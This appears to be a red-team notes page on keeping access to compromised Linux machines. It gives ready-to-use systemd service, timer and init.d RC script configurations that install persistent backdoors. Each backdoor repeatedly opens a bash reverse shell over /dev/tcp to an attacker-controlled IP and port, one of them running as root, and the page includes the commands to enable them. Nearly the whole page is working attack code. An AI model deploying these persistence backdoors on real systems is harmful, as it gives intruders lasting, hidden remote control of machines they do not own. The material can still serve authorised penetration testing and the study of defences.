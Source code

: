 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Living off the Land

## 01 - Systemd

### 1.1 - Service

Non-elevated system daemon.

```
$ cat /etc/systemd/system/maintenance-check.service
[Unit]
Description=Maintenance Service

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

Elevated system daemon.

```
$ cat /etc/systemd/system/rooted-backdoor.service
[Unit]
Description=Backdoor service

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

Reload all daemon services

```
$ sudo systemctl daemon-reload
```

Enable service daemon.

```
$ sudo systemctl enable payload.service
```

### 1.2 - Timer

Create a timer.

```
$ nano ~/.config/systemd/user/payload.timer
[Unit]
Description="Updater Service"

[Timer]
OnBootSec=1min
OnUnitActiveSec=24h
OnCalendar=Mon..Fir *-*-* 09:06:*
Unit=payload.service

[Install]
WantedBy=multi-user.target
```

Once the timer has been created then create a service and specify a path for the payload. Then wait for the service to detonate it.

```
$ nano ~/.config/systemd/user/payload.service
[Unit]
Description="Updater script"

[Service]
ExecStart=/path/to/payload.sh
```

## 02 - RC Scripts

Elevated RC script.

```bash
#!/bin/bash

payload() {
	while true
	do
		bash -c 'exec bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1' &
		sleep 30
	done
}

case "$1" in
	start)
		payload
		;;
	stop)
		pkill -f "bash -c exec bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1"
		;;
	restart)
		$0 stop
		$0 start
		;;
	*)
		echo "Usage $0 {start|stop|restart}"
		exit 1
esac

exit 0
```

Make the script executable and then enable it.

```
$ sudo chmod 755 /etc/init.d/payload

$ sudo update-rc.d payload defaults
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Linux/Backdoors/Bash Profiles/Linux/Helpers]]

- [[Linux Post Exploitation Persistence References]]

### DMCXBlue

- [DMCXBlue: Systemd Service](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1543-create-or-modify-system-process/systemd-service)

- [DMCXBlue: RC Scripts](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1037-boot-or-logon-initialization-scripts/rc-scripts)

- [DMCXBlue: Systemd Timers](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1053-scheduled-tasks-job/systemd-timers)
